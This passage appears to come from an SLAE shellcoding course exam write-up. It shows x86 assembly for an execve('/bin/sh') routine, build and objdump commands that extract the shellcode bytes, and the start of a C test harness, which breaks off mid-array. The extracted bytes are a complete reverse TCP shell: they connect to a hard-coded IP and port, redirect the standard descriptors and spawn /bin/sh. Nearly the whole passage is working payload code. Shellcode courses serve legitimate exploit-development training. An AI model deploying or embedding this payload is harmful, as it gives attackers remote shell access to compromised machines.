 ```
; EXECVE SHELL
; int execve(const char *filename, char *const argv[], char *const envp[]);
; syscall number: 11 (0xb)
;
; Argument Values:
; *filename = Memory address of a null terminated string "/bin/sh"
; *argv[] = [*"/bin/sh", 0x00000000]
; *envp = NULL

  xor ecx, ecx

  ; This has to be pushed in reverse because of how things move to the stack
  ; Pushing /bin/sh null terminated string
  push cx
  push dword 0x68732f2f ; push / / s h
  push dword 0x6e69622f ; push / b i n

  mov ebx, esp ; Store pointer to "/bin/sh" in ebx
  push ecx ; Push NULL
  push ebx ; Push *filename
  mov ecx, esp ; Store memory address pointing to memory address of "/bin/sh"
  mov al, 0xb
  int 0x80 ; Execute SHELL


; EXIT
  xor eax, eax
  mov al, 1;
  int 0x80;
```


**_Getting the Shellcode_**

```bash
root@kali:~/courses/slae/exam# nasm -f elf32 -o assignment2.o assignment2.nasm
root@kali:~/courses/slae/exam# ld -o assignment2 assignment2.o

root@kali:~/courses/slae/exam# objdump -d ./assignment2|grep '[0-9a-f]:'|grep
-v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed
's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xdb\x31\xc9\x31\xd2\xf7\xe3\x31\xf6\x31\xff\xb3\x02\xb1\x01\xb2\x06\x66
\xb8\x67\x01\xcd\x80\x89\xc3\x68\xc0\xa8\xca\x81\x66\x68\x11\x5c\x66\x6a\x02\x89
\xe1\xb2\x10\x66\xb8\x6a\x01\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xf7\xe2\xb0\x3f\xcd
\x80\xfe\xc1\xe2\xf4\x31\xc9\x66\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
\xe3\x51\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
```


**_shellcode.c_**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <netinet/in.h>
#include <arpa/inet.h> // inet_addr

#define IP_OFFSET 27
#define PORT_OFFSET 33

int main(int argc, char* argv[]) {
    unsigned char shellcode[] = \
"\x31\xdb\x31\xc9\x31\xd2\xf7\xe3\x31\xf6\x31\xff\xb3\x02\xb1\x01\xb2\x06\x66
\xb8\x67\x01\xcd\x80\x89\xc3\x68\xc0\xa8\xca\x81\x66\x68\x11\x5c\x66\x6a\x02\x89
```